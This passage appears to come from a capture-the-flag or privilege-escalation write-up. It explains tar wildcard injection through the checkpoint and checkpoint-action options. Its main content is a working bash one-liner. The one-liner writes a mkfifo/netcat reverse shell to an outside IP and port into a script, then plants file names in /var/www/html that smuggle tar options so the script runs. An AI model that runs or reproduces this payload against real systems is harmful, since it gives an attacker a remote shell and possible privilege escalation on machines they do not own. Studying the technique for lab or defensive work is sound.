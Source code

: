 Basically, tar allows the usage of 2 options that can be used for poisoning, in order to force the binary to execute unintended actions:

1.	checkpoint[=NUMBER] — this option displays progress messages every NUMBERth record (default value is 10)
2.	checkpoint-action=ACTION — this option executes said ACTION on each checkpoint

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.39.185 4455 >/tmp/f" > shell.sh && touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" && touch "/var/www/html/--checkpoint=1"
```
